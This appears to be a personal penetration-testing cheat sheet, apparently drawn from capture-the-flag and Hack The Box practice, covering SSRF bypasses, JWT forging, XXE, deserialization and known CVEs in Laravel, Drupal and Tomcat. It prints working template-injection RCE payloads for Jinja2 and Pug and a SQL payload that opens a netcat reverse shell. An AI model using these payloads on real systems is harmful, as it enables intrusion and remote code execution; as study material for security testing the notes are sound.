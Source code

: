 ## If we can confirm an SSRF and want to access internal services like any internal webapp, or internal ftp service but cant due to blacklistings
Then we can host a 301 redirctor link to the director here: https://gist.github.com/TheHackerDev/853b17e9f03c6d5a1cebd9556327e94c. Using this, we can make the server GET our page (which isnt blocked by the blacklist) which will redirect it to localhost, or any other website of our choice.

## If we have a node.js app and it uses pug js and flat js we can do an AST prototype pollution
This attack can be performed else where too, just that we know too little about it for now, to make it work else where, more on this in here https://blog.p6.is/AST-Injection/

## If we have a laravel app
### If the version is through 5.5.40 and 5.6.x through 5.6.29
If we have its base64 encoded APP_KEY then we can use this https://github.com/AlienX2001/better-poc-for-CVE-2018-15133 to get an rce on the machine

## In case of an adminer instance
https://infosecwriteups.com/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f

## for drupal CMS
### If we engage with drupal CMS including 8.5 prior to 8.5.1, 7.x prior to 7.58 and all version of Drupal 6.
Then we can use drupalgeddon2.0 exploit

## If via burp or from the page source analysis we see that the webapp is working with xml
Then we can check for xxe, more on that here https://portswigger.net/web-security/xxe and https://www.synack.com/blog/a-deep-dive-into-xxe-injection/

## If we are working with JWT
If we somehow get a hold of the algorithm key, if its using HS256/RS256 algorithm then we can craft our own jwt signed with the leaked key to get access
If we see that the key is getting imported from a remote location and if we can somehow change that parameter, then we can put our own server in there and then sign the jwts from our own server's key and still get access to sensitive info

## If we manage to get hold of the aws dynamoDB js shell
We can use the templates and extract information about the DB and use those in the aws cli to get code exec

## In support portals if we get email addresses to contact to
Then we might be able to leverage that to get private emails as was with the case with HTB's delivery box, can refer writeups of the same to know more

## We can also find for SSTI
1. For python webapps(flask/jinja2), we can put in `{{request.application.__globals__.__builtins__.__import__('os').popen('CMD').read()}}` to get RCE

2. For noedjs webapps(pugjs), we can put in `#{global.process.mainModule.constructor._load("child_process").exec("CMD+>+static/css/main.css",(err,stdout,stderr)=>{(console.log(stdout))})}` to get RCE, here we redirect the output to a file which we can access via the webapp because the output of the execution will get reflected in the console, which we do not have access to, so it is better to redirect the output to a file which we can reload to get our info

## If we are running an apache tomcat 
### If they are any of the following Apache Tomcat 10.x < 10.0.0-M5, Apache Tomcat 9.x < 9.0.35, Apache Tomcat 8.x < 8.5.55. Apache Tomcat 7.x < 7.0.104
Then we can follow through this blog to get RCE https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and we can use ysoserial to get our serialized payload. To transfer non text stuff from terminal to burp, its best to print out non text's base64 string, copy that to burp and then decode, that way there will be no corruption of bits
#### PS: php also has a deserialization bug like java applets

## If we have a wp page
Then we can use wpscan to scan through the plugins and other stuff. Usually wp plugins tend to be vulnerable since they are 3rd party made

## For getting OS cmd shell from sql
If we have MSSQL, with right perms we can use xp_cmdshell to get os cmd exec
If we have Mysql, with right perms we can use the following payload to get os cmd exe `update settings set value='mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f' where name='path_php_binary';-- -`, we exploited this in some version of cacti, which can be found here https://github.com/Cacti/cacti/issues/3622, but this might be exploitable in other environments

## We can also use the --eval flag of burp to dynamically change the payload by python scripts, and directly ysing the param vars as vars in the python oneliner
## If we have the manager-script role with a user in apache tomcat then we can upload a war file and get a reverse shell


## Some misc notes
1. Once we also got an instance where, in a POST request, we could double submit a parameter to the server by adding the parameter in the cookies as well as the data of the POST request
2. svn is also very much like git cli
